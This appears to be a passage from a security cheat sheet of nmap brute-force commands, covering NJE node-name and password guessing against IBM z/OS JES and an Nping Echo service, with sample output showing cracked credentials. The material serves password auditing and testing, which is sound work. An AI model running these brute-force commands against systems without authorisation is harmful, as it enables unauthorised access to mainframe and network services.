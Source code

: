 
### NJE-Node - Brute-Force

_z/OS JES Network Job Entry (NJE) target node name Brute-Force_
     
```sh 
nmap -sV --script=nje-node-brute 192.168.1.12
```
```sh 
nmap --script=nje-node-brute --script-args=hostlist=nje_names.txt -p 175 192.168.1.12
```

     |PORT    STATE SERVICE REASON
     |175/tcp open  nje     syn-ack
     | nje-node-brute:
     |   Node Name:
     |     POTATO:CACTUS - Valid credentials
     |_  Statistics: Performed 6 guesses in 14 seconds, average tps: 0

### NJE-Pass - Brute-Force                           

_z/OS JES Network Job Entry (NJE) 'I record' password Brute-Forcer_
     
```sh 
nmap -sV --script=nje-pass-brute --script-args=ohost='POTATO',rhost='CACTUS' 192.168.1.12
```
```sh 
nmap --script=nje-pass-brute --script-args=ohost='POTATO',rhost='CACTUS',sleep=5 -p 175 192.168.1.12
```

     |PORT    STATE SERVICE VERSION
     |175/tcp open  nje     IBM Network Job Entry (JES)
     | nje-pass-brute:
     |   NJE Password:
     |     Password:A - Valid credentials
     |_  Statistics: Performed 8 guesses in 12 seconds, average tps: 0

### Nping - Brute-Force                         

_Performs Brute-Force password auditing against an Nping Echo service_
     
```sh 
nmap -p 9929 --script nping-brute 192.168.1.12
```

     |9929/tcp open  nping-echo
     | nping-brute:
     |   Accounts
     |     123abc => Valid credentials
     |   Statistics
     |_    Perfomed 204 guesses in 204 seconds, average tps: 1
